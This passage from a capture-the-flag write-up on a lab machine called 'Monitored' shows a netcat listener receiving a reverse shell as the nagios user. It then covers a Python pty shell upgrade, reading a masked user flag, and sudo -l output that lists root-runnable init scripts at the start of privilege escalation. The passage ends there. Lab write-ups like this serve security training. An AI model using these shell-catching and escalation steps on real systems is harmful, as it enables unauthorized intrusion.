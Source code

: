 ![img](/assets/img/Monitored/img16.webp)

The `rev_shell` command was executed, I got the shell as `nagios`

```bash
$ nc -lvnp 1337
nagios@monitored:/tmp$ 
```

#### Upgrading shell

I upgraded my shell using Python to make it more stable

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

Got the `user.txt` flag

```bash
nagios@monitored:~$ ls
cookie.txt  user.txt
nagios@monitored:~$ cat user.txt 
afdb64ea************************
nagios@monitored:~$ 
```

## Privilege Escalation

Running `sudo -l` showed that the `nagios` user can execute the following as root

```bash
agios@monitored:~$ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
```